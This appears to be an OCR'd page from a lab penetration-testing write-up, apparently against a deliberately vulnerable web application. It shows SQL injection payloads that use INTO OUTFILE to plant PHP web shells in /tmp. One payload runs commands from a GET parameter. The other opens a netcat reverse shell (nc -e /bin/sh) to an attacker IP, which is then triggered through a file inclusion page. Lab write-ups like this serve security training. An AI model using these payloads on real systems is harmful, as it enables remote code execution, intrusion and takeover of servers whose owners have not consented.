 \documentclass[a4paper,10pt]{article}
\begin{document}
\begin{verbatim}
% or 0 = 0 union select 1, '<?php system($_GET['cmd']); ?>' into outfile '/tmp/exec.php'#
\end{verbatim}
This tries to use the system() function to execute commands that are being passed through ‘cmd’ HTTP request GET parameter.\\
But even after lots of reconfiguration this doesnt work, probably due to syntactical errors.
The next approach was to straight write the connection to a file and execute it via the file inclusion page.
\begin{verbatim}
%' or 0=0 union select 1, '<?php system("nc 192.168.193.128 1337 -e/bin/sh"); \
?>' into outfile '/tmp/pown.php' #
\end{verbatim}
When we check /tmp at the victim maschine,, we see the created file.\\
\includegraphics[scale=0.5]{pown.png}\\
\vspace{1mm}
After further research we realize that our sql statement was not correct since it also wrote usernames in the file.\\
After adjusting the statement we only have the php funtion with our nc connection writen in the file.
Via the File inclusion page we can now call that file to connecto to our nc server.
\begin{verbatim}
 
\end{verbatim}
\includegraphics[scale=0.5]{nc.png}
\newpage
\end{document}
